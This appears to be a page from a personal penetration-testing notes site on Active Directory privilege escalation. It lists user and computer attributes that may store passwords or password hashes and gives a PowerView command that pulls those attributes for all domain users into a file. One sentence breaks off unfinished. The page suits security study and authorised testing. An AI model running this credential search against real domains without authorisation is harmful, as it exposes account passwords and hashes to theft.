

repository: gandhi-taha/security · page: attacking_active_directory_domain/active_directory_privilege_escalation/passwords_in_active_directory_attributes/index.html · generator: mkdocs

## Password in Active Directory attributes

Inb order to search through users or objects you need to 

Interesting attributes to search for, remember these can be for either computer or a user.

```
comment
description
UserPassword
UnixUserPassword
unicodePwd
msSFU30Password
```

Other interesting might be
```
adminDescription
dBCSPwd
lmpwdHistory
nTPwdHistory
supplementalCredentials
```


### Using PowerView


```PowerShell
Get-DomainUser -Domain evilcorp.local -Properties samaccountname,comment,description,userpassword,unixuserpassword,unicodepwd,mssfu30password,admindescription,dbcspwd,lmpwdhistory,ntpwdhistory,supplementalcredentials -LDAPFilter '(|(comment=*)(description=*)(userpassword=*)(unixuserpassword=*)(unicodepwd=*)(mssfu30password=*)(admindescription=*)(dbcspwd=*)(lmpwdhistory=*)(ntpwdhistory=*)(supplementalcredentials=*))' | fl > C:\attributes.txt
```
